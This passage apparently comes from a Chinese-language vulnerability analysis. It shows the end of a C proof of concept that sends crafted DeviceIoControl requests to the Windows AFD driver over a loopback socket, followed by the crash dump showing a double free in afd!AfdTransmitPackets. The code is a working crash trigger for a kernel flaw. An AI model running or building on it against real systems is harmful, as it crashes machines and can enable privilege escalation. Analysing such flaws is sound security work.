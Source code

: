 ```
    inbuf1[10] = 1;
    static DWORD inbuf2[100];
    memset(inbuf2, 0, sizeof(inbuf2));
    inbuf2[0] = 1;
    inbuf2[1] = 0x0AAAAAAA;
    WSADATA WSAData;
    SOCKET s;
 
    SOCKADDR_IN sa;
    int ierr;
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));
    static char outBuf[100];
    DWORD bytesRet;
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, outBuf, 0,
        &bytesRet, NULL);
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x18, outBuf, 0,
        &bytesRet, NULL);
    return 0;
}
```  
#   
#   
#   
# BSOD信息  
```
The current thread is making a bad pool request.  Typically this is at a bad IRQL level or double freeing the same allocation, etc.
Arguments:
Arg1: 00000007, Attempt to free pool which was already freed      //尝试释放已释放的池
Arg2: 00001097, Pool tag value from the pool header
Arg3: 08bd0006, Contents of the first 4 bytes of the pool header
Arg4: 888aa318, Address of the block of pool being deallocated
 
FREED_POOL_TAG:  Mdl
POOL_ADDRESS:  888aa318 Nonpaged pool
 
STACK_TEXT: 
8fd8454c 84720083 00000003 7b818ced 00000065 nt!RtlpBreakWithStatusInstruction
8fd8459c 84720b81 00000003 888aa310 000001ff nt!KiBugCheckDebugBreak+0x1c
8fd84960 84762c6b 000000c2 00000007 00001097 nt!KeBugCheck2+0x68b
8fd849d8 846cdec2 888aa318 00000000 888ab6f0 nt!ExFreePoolWithTag+0x1b1
8fd849ec 8db8ceb0 888aa318 00000000 8db6f89f nt!IoFreeMdl+0x70
8fd84a08 8db6f8ac 00000000 00000001 026e1e9f afd!AfdReturnTpInfo+0xad
8fd84a44 8db70bba 026e1e37 000120c3 8db70a8c afd!AfdTliGetTpInfo+0x89
8fd84aec 8db752bc 89c36640 888a7708 8fd84b14 afd!AfdTransmitPackets+0x12e
8fd84afc 84678593 888a7708 896c3790 896c3790 afd!AfdDispatchDeviceControl+0x3b
8fd84b14 8486c99f 89c36640 896c3790 896c386c nt!IofCallDriver+0x63
8fd84b34 8486fb71 888a7708 89c36640 00000000 nt!IopSynchronousServiceTail+0x1f8
8fd84bd0 848b63f4 888a7708 896c3790 00000000 nt!IopXxxControlFile+0x6aa
8fd84c04 8467f1ea 00000050 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8fd84c04 779070b4 00000050 00000000 00000000 nt!KiFastCallEntry+0x12a
0017f618 77905864 75cc989d 00000050 00000000 ntdll!KiFastSystemCallRet
0017f61c 75cc989d 00000050 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc
0017f67c 75e9a671 00000050 000120c3 00fb3588 KERNELBASE!DeviceIoControl+0xf6
 
MODULE_NAME: afd
```